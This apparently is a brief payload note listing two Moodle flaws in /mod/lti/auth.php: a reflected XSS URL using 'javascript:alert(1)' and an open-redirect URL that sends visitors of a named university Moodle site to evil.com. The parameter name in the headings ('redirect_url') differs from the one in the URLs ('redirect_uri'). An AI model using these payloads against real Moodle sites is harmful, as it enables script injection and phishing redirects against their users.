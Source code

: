 # Moodle

1. Reflected XSS in /mod/lti/auth.php via "redirect_url" parameter
```
https://target.com/mod/lti/auth.php?redirect_uri=javascript:alert(1)
```

2. Open redirect in /mod/lti/auth.php in "redirect_url" parameter

```
https://classroom.its.ac.id/mod/lti/auth.php?redirect_uri=https://evil.com
```